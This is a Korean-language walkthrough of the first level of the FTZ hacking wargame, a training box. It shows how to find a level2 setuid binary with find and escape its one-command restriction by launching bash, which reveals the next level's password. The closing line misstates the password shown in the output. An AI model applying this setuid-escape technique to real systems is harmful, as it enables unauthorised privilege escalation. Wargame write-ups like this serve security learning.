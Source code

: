 접속을 해 준 뒤 파일의 리스트를 보면 이와 같이 뜬다.
```bash
[level1@ftz level1]$ ls -al
total 88
drwxr-xr-x    4 root     level1       4096 Jan 16  2009 .
drwxr-xr-x   34 root     root         4096 Sep 10  2011 ..
-rw-------    1 root     root            1 Jan 15  2010 .bash_history
-rw-r--r--    1 root     root           24 Feb 24  2002 .bash_logout
-rw-rw-r--    1 root     root          224 Feb 24  2002 .bash_profile
-rw-r--r-x    1 root     root          151 Feb 24  2002 .bashrc
-rw-r--r--    1 root     root          400 Feb 24  2002 .cshrc
-rw-r--r--    1 root     root         4742 Feb 24  2002 .emacs
-rw-r--r--    1 root     root          162 Feb 24  2002 .epems
-r--r--r--    1 root     root          319 Feb 24  2002 .gtkrc
-rw-r--r--    1 root     root          100 Feb 24  2002 .gvimrc
-rw-r--r--    1 root     root           47 Apr  4  2000 hint
-rw-r--r--    1 root     root          226 Feb 24  2002 .muttrc
-rw-r--r--    1 root     root          367 Feb 24  2002 .profile
drwxr-xr-x    2 root     level1       4096 Dec  7  2003 public_html
drwxrwxr-x    2 root     level1       4096 May 20 11:59 tmp
-rw-r--r--    1 root     root            1 May  7  2002 .viminfo
-rw-r--r--    1 root     root         4145 Feb 24  2002 .vimrc
-rw-------    1 root     root          106 Mar  6  2000 .Xauthority
-rw-r--r--    1 root     root          245 Feb 24  2002 .Xdefaults
```

hint 파일이 있는데 한번 보면
```bash
[level1@ftz level1]$ cat hint


level2 권한에 setuid가 걸린 파일을 찾는다.
```

찾는 다라는 말이 있으니깐 `find`명령어가 떠오른다.  
자세한 사용법은 구글링을 통해 참고 했다.

`find [OPTION...] [PATH] [EXPRESSION]`

익스프레션으로 `-user ` <u>`uname`</u> 이라는 것이 있다(man find:499)

그래서 아래와 같이 명령어를 입력했다.
```bash
[level1@ftz level1]$ find / -user level2
find: /lost+found: Permission denied
find: /boot/lost+found: Permission denied
find: /proc/1/fd: Permission denied
find: /proc/2/fd: Permission denied
find: /proc/3/fd: Permission denied
find: /proc/4/fd: Permission denied
find: /proc/9/fd: Permission denied
find: /proc/5/fd: Permission denied

...
```

오류가 뜨므로 숨기기 위해서 우리들의 쓰레기 통으로 보낸다.
```bash
[level1@ftz level1]$ find / -user level2 2>/dev/null
/bin/ExecuteMe
```
그랬더니 깔끔하게 뜬다.

한번 ExecuteMe명령어를 실행해 보자.
```bash
[level1@ftz level1]$ ExecuteMe



                레벨2의 권한으로 당신이 원하는 명령어를
                한가지 실행시켜 드리겠습니다.
                (단, my-pass 와 chmod는 제외)

                어떤 명령을 실행시키겠습니까?


                [level2@ftz level2]$
```
보면 level2 권한에서 명령어를 실행하는 것을 볼 수 있다.

my-pass와 chmod를 쓰지 못한다고 했는데 그럼 어떤 명령어를 써야하는 것일까..?

level2유저 권한을 유지하면서 명령을 계속 할 수 있는 무언가가 필요한 것 같다.

```bash
[level1@ftz level1]$ ExecuteMe



                레벨2의 권한으로 당신이 원하는 명령어를
                한가지 실행시켜 드리겠습니다.
                (단, my-pass 와 chmod는 제외)

                어떤 명령을 실행시키겠습니까?


                [level2@ftz level2]$ bash


[level2@ftz level2]$ my-pass

Level2 Password is "hacker or cracker".
```
level2의 패스워드는 `hacker of cracker`이다.